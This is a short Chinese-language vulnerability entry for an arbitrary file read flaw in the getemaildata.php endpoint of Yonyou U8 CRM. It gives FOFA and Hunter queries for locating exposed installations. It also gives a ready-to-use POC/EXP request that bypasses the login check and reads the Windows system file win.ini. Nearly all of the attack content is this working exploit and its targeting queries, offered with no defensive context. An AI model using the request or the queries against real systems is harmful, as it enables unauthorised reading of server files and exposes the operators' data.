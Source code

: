 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 网络测绘

fofa: app="用友U8CRM"

hunter: web.body="用友U8CRM"

## POC / EXP

```
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```